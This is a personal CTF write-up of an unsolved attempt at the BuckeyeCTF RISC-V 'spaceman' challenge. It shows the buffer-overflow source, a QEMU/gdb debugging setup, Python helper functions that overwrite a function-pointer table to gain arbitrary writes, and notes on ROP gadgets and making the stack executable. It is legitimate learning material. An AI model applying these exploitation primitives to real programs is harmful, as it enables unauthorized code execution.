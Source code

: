 I worked on this challenge for the entirety of the CTF. I mean I took a break from it for a little to do all of the beginner-pwn challenges so I could have at least contributed, but this was the real challenge I worked on. And to be honest, even though I didn't solve it after over 20 hours of working on it, I definitely learned a lot. 

Lets start by running checksec and file.

```
[*] '/home/papichulo/Desktop/ExploitDev/LiveCTF/BuckeyeCTF/spaceman-chal/spaceman'
    Arch:       riscv64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
```

```
spaceman: ELF 64-bit LSB executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV), statically linked, for GNU/Linux 4.15.0, with debug_info, not stripped
```

First of all, this challenge is very unique with the fact that this runs on the `RISC-V` architecture, which changes things up quite a bit. Also not just that, but the challenge is statically linked and it never calls system, so anything ret2libc/one_gadget related is out of the window (not that one gadget would have even worked because this is a different architecture).

Also before starting, I had to find out how to debug the program since it runs on a different architecture and GDB would crap itself. Anyways what I did is that I had to run the binary in QEMU and send it into a localhost port, and then send a gdb script to that port like so.

```python
import gdb

binary = "spaceman"

gdb.execute(f"file {binary}")
gdb.execute("set architecture riscv:rv64")
gdb.execute("target remote localhost:1234")
```

Anyways, looking at the program, the bug is here.

```c
   6   │ #define CMD_SIZE 0x10
   7   │ 
   8   │ char CMD_BUF[CMD_SIZE] = { 0 };
   9   │ 
  10   │ void handle_echo();
  11   │ void handle_dish();
  12   │ void handle_engines();
  13   │ void handle_shields();
  14   │ void handle_status();
  15   │ void handle_help();
  16   │ 
  17   │ struct {
  18   │     char *cmdName;
  19   │     void (*handler)();
  20   │ } CMD_HANDLERS[] = {
  21   │     "help", handle_help,
  22   │     "echo", handle_echo,
  23   │     "dish", handle_dish,
  24   │     "engines", handle_engines,
  25   │     "shields", handle_shields,
  26   │     "status", handle_status,
  27   │ };
  28   │ 
  29   │ void get_command() {
  30   │     memset(CMD_BUF, 0, CMD_SIZE);
  31   │     printf("COMMAND> ");
  32   │     if (!fgets(CMD_BUF, 0x20, stdin)) {
  33   │         exit(1);
  34   │     }
```

So the program creates a `0x10` sized chunk but then the `fgets()` call tries to put `0x20` bytes into the buffer, overwriting the first struct in `CMD_HANDLERS[]`. This means that overwriting `handle_help` with an address of our choice will let us run whatever function we want, and because the program is statically linked with `fnoPIE`, we will not need any leaks. Also, what I realized was that the registers at the time of calling the `handle` functions will be as goes: `a0` will always equal 0, `a1` is the string of our command in hex form, and `a2` will be the length of the command.

Now with this in mind, my [friend](https://github.com/SolarDebris) found that we can call `read()` on any address and whatever we put in `stdin` next, will be written there. The only problem is that the address is technically 3 bytes long (since there will be null bytes after that) and then because of that, we only overwrite 3 bytes at a time. 

So what I thought of doing was, finding a pointer whose value points to the address of another pointer, whose value points to the address of another pointer, whose value points to the address that we want to modify. And after a little while of looking for that in Ghidra, I finally found it.

```
0x8a488 => 0x8a2b8 => 0x8a518 => writeable memory
```

With this in mind, I created some helper functions. At the time when I tested it I accidentally ended the address in `b` insted of `8` so I thought there was something wrong with my function and I kind of made it a little boofed, but it worked and I was mostly busy on trying to get the flag and not on how well I made my functions. Anyways here they are:

```python
def write_three_bytes(io, p_addr, addr, data): 
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["read"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))

    sl(io, data)
    
def write_data(io, pp_addr, p_addr, addr, data):
    # for some reason the function is being weird
    # so instead of fixing it I am just gonna add something to cope with it
    # spoken like a true programmer
    data = b"AAA\x00\x00" + data

    for i in range(int(len(data) / 3)):
        print(data[i * 3: i * 3 + 3])
        write_three_bytes(io, p_addr, addr, data[i * 3: i * 3 + 4])
        addr += 3

        write_three_bytes(io, pp_addr, p_addr, p32(addr))

```

After that, what we tried to do was write the address of the flag into memory and then call the `open_at()` function because the `param_2` is what is the char pointer.

```python
def open_at(io, p_addr, addr):
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["openat"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))
```

After this we kind of got stuck, then what my friend thought to do was to start a ROP chain so that is what we did. Only problem is that ROP in RISC-V kind of sucks. For some reason, `ropper` won't even try to find gadgets and also, `ROPgadget` will not ever give us a `ret`, so after reading up a bit, I found that `c.jr ra` is the equivalent. So with that in mind, we started trying to construct ROP chains for the next few hours, and even got an [extra hand](https://github.com/Pwnut). 

This is where we got stumped, we tried a lot of things but none of them worked. One good thing that did come out of this though is that I started getting more and more comfortable reading a RISC-V manual throughout the process and started to learn a lot about the architecture. 

In the end, we were in the right path to the intended solution. We just needed more time to keep looking at ROP gadgets and to find what the author called, `the magic gadget`. 

One thing that I did find interesting though, was a specific person's solve. His username on Discord was `lobob-rondo` and he said what he did was and I quote "leak stack, call `__nptl_change_stack_perm` to make stack executable and shellcode". So what I found interesting was that, first ofall, you can leak the stack through `libc_environ`. But most importantly, THERE IS A FUNCTION THAT WILL CHANGE THE STACK TO BE EXECUTABLE!!!! LIKE WHAT????? WHY IS THAT THERE??????? 

Anyways that is a good thing to know for future CTFs. This challenge was very fun and I got quite a bit out of it. Overall great challenge!!!!

